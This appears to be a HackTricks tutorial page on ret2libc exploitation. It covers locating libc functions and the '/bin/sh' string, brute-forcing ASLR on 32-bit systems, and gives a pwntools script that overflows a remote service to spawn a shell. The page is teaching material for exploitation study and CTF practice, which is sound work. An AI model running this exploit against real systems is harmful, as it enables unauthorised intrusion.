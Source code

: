 # Ret2lib

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

The essence of **Ret2Libc** is to redirect the execution flow of a vulnerable program to a function within a shared library (e.g., **system**, **execve**, **strcpy**) instead of executing attacker-supplied shellcode on the stack. The attacker crafts a payload that modifies the return address on the stack to point to the desired library function, while also arranging for any necessary arguments to be correctly set up according to the calling convention.

### **Example Steps (simplified)**

* Get the address of the function to call (e.g. system) and the command to call (e.g. /bin/sh)
* Generate a ROP chain to pass the first argument pointing to the command string and the execution flow to the function

## Finding the addresses

* Supposing that the `libc` used is the one from current machine you can find where it'll be loaded in memory with:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

If you want to check if the ASLR is changing the address of libc you can do:

```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```

* Knowing the libc used it's also possible to find the offset to the `system` function with:

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

* Knowing the libc used it's also possible to find the offset to the string `/bin/sh` function with:

```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

### Using gdb-peda / GEF

Knowing the libc used, It's also possible to use Peda or GEF to get address of **system** function, of **exit** function and of the string **`/bin/sh`** :

```
p system
p exit
find "/bin/sh"
```

### Using /proc/\<PID>/maps

If the process is creating **children** every time you talk with it (network server) try to **read** that file (probably you will need to be root).

Here you can find **exactly where is the libc loaded** inside the process and **where is going to be loaded** for every children of the process.

![](<../../../../.gitbook/assets/image (95).png>)

In this case it is loaded in **0xb75dc000** (This will be the base address of libc)

## Unknown libc

It might be possible that you **don't know the libc the binary is loading** (because it might be located in a server where you don't have any access). In that case you could abuse the vulnerability to **leak some addresses and find which libc** library is being used:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

And you can find a pwntools template for this in:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Bypassing ASLR in 32 bits

These brute-forcing attacks are **only useful for 32bit systems**.

* If the exploit is local, you can try to brute-force the base address of libc (useful for 32bit systems):

```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```

* If attacking a remote server, you could try to **burte-force the address of the `libc` function `usleep`**, passing as argument 10 (for example). If at some point the **server takes 10s extra to respond**, you found the address of this function.

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Code Example

In this example ASLR brute-force is integrated in the code and the vulnerable binary is loated in a remote server:

```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
    p = ""
    p += p32(off + 0x0003cb20) #system
    p += "CCCC" #GARBAGE, could be address of exit()
    p += p32(off + 0x001388da) #/bin/sh
    payload = 'A'*0x20010 + p
    c.send(payload)
    c.interactive()
```

## x64 Ret2lib Code Example

Check the example from:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (or puts)

This allows to **leak information from the process** by calling `printf`/`puts` with some specific data placed as an argument.

## Ret2printf

This basically means abusing a **Ret2lib to transform it into a `printf` format strings vulnerability** by using the `ret2lib` to call printf with the values to exploit it (sounds useless but possible):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Other Examples & references

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
  * Ret2lib, given a leak to the address of a function in libc, using one gadget
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
  * 64 bit, ASLR enabled but no PIE, the first step is to fill an overflow until the byte 0x00 of the canary to then call puts and leak it. With the canary a ROP gadget is created to call puts to leak the address of puts from the GOT and the a ROP gadget to call `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
  * 64 bits, ASLR enabled, no canary, stack overflow in main from a child function. ROP gadget to call puts to leak the address of puts from the GOT and then call an one gadget.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
  * 64 bits, no pie, no canary, no relro, nx. Uses write function to leak the address of write (libc) and calls one gadget.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

